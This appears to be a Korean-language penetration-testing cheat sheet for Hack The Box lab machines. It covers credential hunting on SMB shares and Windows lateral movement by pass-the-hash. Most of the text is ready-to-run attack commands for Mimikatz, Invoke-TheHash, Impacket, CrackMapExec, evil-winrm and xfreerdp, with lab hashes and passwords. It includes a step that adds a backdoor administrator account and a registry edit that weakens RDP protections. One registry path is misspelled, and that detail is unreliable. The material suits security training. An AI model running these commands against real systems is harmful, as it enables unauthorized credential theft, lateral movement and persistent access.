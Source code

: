 ```
```
PS> Set-ExecutionPolicy -Scope Process Bypass
PS> Import-Module .\PowerHuntShares.psm1
PS> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
```

### MANSPIDER(Linux)
- [MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER)는 도메인에 가입된 컴퓨터에 접근할 수 없거나 원격으로 파일을 검색하고 싶은 경우 사용<br/>
```$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.121 -c 'passw' -u 'mendres' -p 'Inlanefreight2025!'```

### NetExec(Linux)
- `--spider`, `-M spider_plus` 옵션을 사용하여 네트워크 공유를 검색하는데 사용<br/>
```$ nxc smb 10.129.234.121 -u mendres -p 'Inlanefreight2025!' --spider IT --content --pattern "passw"```<br/>
```$ nxc smb 10.129.234.121 -u mendres -p 'Inlanefreight2025!' -M spider_plus```

<br/><br/>
# 8. Windows Lateral Movement

## Pass the Hash(PtH)

### Pass the Hash with Mimikatz(Windows)
```c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit```<br/>

### Pass the Hash with PowerShell Invoke-TheHash(Windows)
- [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)는 WMI 및 SMB로 해시 패스 공격을 수행하기 위한 PowerShell 함수 모음<br/>
```
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

### Pass the Hash with Impacket(Linux)
```$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453```<br/>
- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### Pass the Hash with CrackMapExec(Linux)
```$ crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453```<br/>
로컬 관리자 시도 : ```$ crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 --local-auth```<br/>
명령 실행 : ```$ crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami```

### Pass the Hash with evil-winrm(Linux)
```$ evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453```<br/>
> 도메인 계정을 사용하는 경우 도메인 이름(예 : administrator@inlanefreight.htb)을 포함해야 함

### Pass the Hash with RDP(Linux)
- `Restricted Admin Mode` 활성화 필요<br/>
```c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f```<br/>
```$ xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B```

### UAC Limits Pass the Hash for Local Accounts
- `HKLM\SWOREATE\Microsoft\Windows\CurrentVersion\Policys\System\LocalAccountTokenFilterPolicy`가 0으로 설정되어 있으면 내장된 로컬 관리자 계정(RID-500, "Administrator")이 원격 관리 작업을 수행할 수 있는 유일한 로컬 계정임<br/>
- 1로 설정하면 다른 로컬 관리자도 사용할 수 있음
> `FilterAdministratorToken`(기본적으로 비활성화됨)이 활성화된 경우(값 1), RID-500 계정(Administrator)이 UAC 보호

<br/><br/>
## Pass the Ticket (PtT) from Windows

```